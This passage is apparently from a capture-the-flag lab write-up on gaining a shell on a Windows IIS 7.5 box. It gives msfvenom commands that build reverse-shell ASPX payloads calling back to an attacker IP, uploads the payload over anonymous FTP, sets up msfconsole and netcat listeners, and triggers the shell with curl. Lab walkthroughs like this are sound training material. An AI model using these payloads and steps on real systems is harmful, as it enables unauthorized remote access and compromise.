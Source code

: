 we could upload the file successfully,  but we must find a way to upload reverse shell. Now the next step will be create exploit for shell. Before creating exploit we should keep few things in mind like:

Web server: Microsoft IIS httpd 7.5 [IIS supports .aspx .asp file].
Windows OS with x86 or x64 bit [we always use 32 bit because it works for both].

We could google "MSFVenom - CheatSheet" : 
https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/msfvenom

```bash
# 1. create meterpreter aspx shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.12 LPORT=1234 -a x86 -f aspx > devel.aspx
# 2. create a normal aspx shell
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.12 LPORT=1234 -a x86 -f aspx > devel.aspx
# upload aspx shell
ftp 10.10.10.5
anonymous
binary
put devel.aspx
```

![[Devel-06.png]]

![[Devel-05.png]]

```bash
# 1. we will use msfconsole for our meterpreter reverse shell.
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 10.10.14.12
set lport 1234
run
# 2. we will use nc to build a listener port
nc -lvp 1234
# access the aspx shell
curl http://10.10.10.5/devel.aspx 
```

![[Devel-07.png]]

```bash
shell
whoami
hostname
```

![[Devel-08.png]]
![[Devel-09.png]]

Very good, we exploit get a aspx reverse shell.
